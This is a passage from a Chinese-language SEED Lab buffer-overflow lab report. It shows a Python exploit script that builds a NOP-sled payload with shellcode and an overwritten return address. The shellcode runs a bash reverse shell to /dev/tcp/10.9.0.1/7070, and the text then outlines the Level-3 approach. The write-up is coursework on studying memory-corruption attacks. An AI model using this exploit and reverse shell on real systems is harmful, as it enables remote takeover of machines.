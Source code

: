 ```python
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   "/bin/bash -i > /dev/tcp/10.9.0.1/7070 0<&1 2>&1           *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffd728 + start    # Change this number 
offset = 300              # Change this number 

# Use 4 for 32-bit address and 8 for 64-bit address
content[0:offset + 4] = (ret).to_bytes(4,byteorder='little')*76
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```



获取到shell

![level2-result](/img/posts/2023-10-25-【SEED_Lab】缓冲区溢出实验报告/images_server/level2-result.png)

### Task 4：Level-3 Attack 

向server3发送nc连接请求，发现可以看到rbp和buffer地址。通过将shellcode放在ret前解决。

![echo-hello-server3](/img/posts/2023-10-25-【SEED_Lab】缓冲区溢出实验报告/images_server/echo-hello-server3.png)
